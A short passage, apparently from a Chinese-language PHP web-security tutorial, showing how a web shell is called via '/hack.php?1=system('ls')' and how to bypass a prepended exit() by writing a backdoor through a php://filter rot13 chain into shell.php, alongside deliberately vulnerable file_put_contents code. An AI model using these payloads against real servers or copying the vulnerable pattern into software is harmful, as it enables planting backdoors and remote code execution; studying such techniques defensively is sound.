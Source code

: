 访问即可
```
/hack.php?1=system('ls');
```

^
#### **4、伪协议写后门绕过**

```
$content = $_GET[content];
file_put_contents($content,'<?php exit();'.$content);
```
需要绕过exit();
```
php://filter/write=string.rot13|<?cuc cucvasb();?>/resource=shell.php
```


